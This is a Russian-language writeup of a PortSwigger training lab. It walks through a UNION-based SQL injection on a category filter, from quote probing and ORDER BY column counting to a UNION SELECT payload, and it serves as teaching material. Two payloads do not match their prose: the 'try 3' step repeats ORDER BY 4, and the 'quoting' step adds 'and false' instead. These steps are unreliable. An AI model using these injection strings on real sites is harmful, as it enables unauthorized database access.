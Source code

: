 ```yaml
---
title: "SQL injection UNION attack, determining the number of columns returned by the query"
date: 2025-06-19
tags: [sqli, writeup]
excerpt: "This post should [...]"
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns)

## Scope

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Для решения необходимо выполнить атаку, которая должна вывести дополнительную строку с `NULL` значениями.

## Solution

Первым делом нужно найти фильтр категорий, который описан в задании. Это сделать достаточно легко, так как он находится на главной странице, и значения для фильтрации передаются через параметры `GET`-запроса.

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/1.png){: height="200" .align-center}

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories
```


Теперь нужно найти символ обрамления для параметра. Предположим, что запрос выглядит следующим образом:

```sql
SELECT name, price FROM table WHERE category = 'Accessories'
```

Предположу, что для обрамления используется символ кавычки `'`, тогда я не должен получить никаких значений при следующем запросе:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories' and false-- -
```

Собственно это и произошло:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/2.png){: height="200" .align-center}

Запрос к БД выглядел следующим образом:

```sql
SELECT name, price FROM table WHERE category = 'Accessories' and false -- -'
```

<details>
  <summary>Подробнее</summary>
  
  `-- -` - это комментарий в SQL, с помощью него я убрал всю последующую часть запроса. В данном случае это лишняя кавычка, которая ломала бы запрос.
</details>
<br>

Обрамления я нашел - это одинарные кавычки `'`. Теперь нужно найти количество элементов в запросе. Это можно сделать с помощью `ORDER BY`. Этот оператор используется для сортировки результата по номеру стоблца в БД. Если нужного столбца нет, то мы получим ошибку. Подставлю значение 100:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories%27%20ORDER%20BY%20100--%20-
```

Ошибка)

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/3.png){: height="200" .align-center}

Далее можно использовать бинарный поиск для нахождения нужного значения. То есть передать 50. В случае ошибки взять 25. Если же успех, то 75. И так далее. Можно так же ткнуть на обум. На сайте мы видим 3 колонки. Звучит логично, что они все заполняются из БД. Подставлю значение 4 (для сокращения буду писать только часть пейлоада):

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/4.png){: height="200" .align-center}

Подставлю 3:

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/5.png){: height="200" .align-center}

Супер. ~~Сбер теперь купер~~.

Я нашел количество столбцов. Попробую добавить `UNION` к своему пейлоаду, чтобы получить данные из БД:
  
```
Accessories' UNION SELECT 1,2,3-- -
```

Ошибка(

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/6.png){: height="200" .align-center}

Оберну значения в кавычки:

```
Accessories' and false UNION SELECT 1,2,3-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/7.png){: height="200" .align-center}

Я вывел переданные значения в таблицу на сайте, что и требовалось для прохождения лабы.
